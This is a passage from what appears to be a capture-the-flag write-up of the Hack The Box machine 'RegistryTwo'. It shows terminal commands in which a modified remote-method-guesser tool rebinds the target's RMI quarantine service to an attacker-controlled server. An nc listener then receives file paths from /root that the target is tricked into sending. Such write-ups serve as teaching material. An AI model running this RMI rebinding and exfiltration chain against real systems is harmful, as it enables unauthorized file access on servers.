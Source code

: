 ```
┌──(root㉿kali)-[~]
└─# /usr/sbin/clamd -c /etc/clamav/clamd.conf
ERROR: Sat Dec  2 15:51:04 2023 -> TCP: Cannot bind to [0.0.0.0]:3310: Address already in use
```

```bash
┌──(root㉿kali)-[~]
└─# ss -wuntpl | grep 3310                
tcp   LISTEN 0      15                0.0.0.0:3310       0.0.0.0:*    users:(("clamd",pid=852387,fd=4)) 
```

```bash
┌──(ar0x㉿kali)-[~/…/Machines/RegistryTwo/remote-method-guesser_modified/target]
└─$ java -jar rmg-custom.jar rebind 127.0.0.1 9002 127.0.0.1:6565 QuarantineService --htb-rmiserver 10.10.14.81:6565 --htb-clamav 10.10.14.81:3310
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] QurantineService bound name detected.
[+] Rebinding name QuarantineService to com.htb.hosting.rmi.quarantine.QuarantineServiceImpl
[+]
[+]     Encountered no Exception during rebind call.
[+]     Rebind operation was probably successful.
[+]     Error: object not exported
Dec 02, 2023 11:50:01 AM com.htb.hosting.rmi.quarantine.QuarantineServiceImpl getConfiguration
INFO: client fetching configuration
```

I started the server and added two new parameters `--htb-rmiserver` and `--htb-clamav`. The first one will get the ip and port and it will start the RMI server on the given ip and port. The second is the ip and port of our ClamAV server. Before we test this with the real ClamAV instance, let us start the `nc` listener on it and wait to see if we get anything. After a few seconds I got the following result. We got `zSCAN /root/.docker/buildx/.lock` in response. This is great, because now RMI Server will scan the files in `/root` and so the files will be sent to **our ClamAV server** and we can see which file we want to read.

```bash
┌──(ar0x㉿kali)-[~]
└─$ nc -lvnp 3310
listening on [any] 3310 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.229.28] 40344
zSCAN /root/.docker/buildx/.lock 
```

Activated the ClamAV server again, and started wireshark to capture the filenames. Lets check the result.

```bash
● clamav-daemon.service - Clam AntiVirus userspace daemon
     Loaded: loaded (/lib/systemd/system/clamav-daemon.service; disabled; preset: disabled)
    Drop-In: /etc/systemd/system/clamav-daemon.service.d
             └─extend.conf
     Active: active (running) since Sat 2023-12-02 12:02:29 CET; 3min 33s ago
TriggeredBy: ● clamav-daemon.socket
       Docs: man:clamd(8)
             man:clamd.conf(5)
             https://docs.clamav.net/
    Process: 752150 ExecStartPre=/bin/mkdir -p /run/clamav (code=exited, status=0/SUCCESS)
    Process: 752154 ExecStartPre=/bin/chown root /run/clamav (code=exited, status=0/SUCCESS)
   Main PID: 752157 (clamd)
      Tasks: 2 (limit: 37496)
     Memory: 1.4G
        CPU: 12.049s
     CGroup: /system.slice/clamav-daemon.service
             └─752157 /usr/sbin/clamd --foreground=true
```
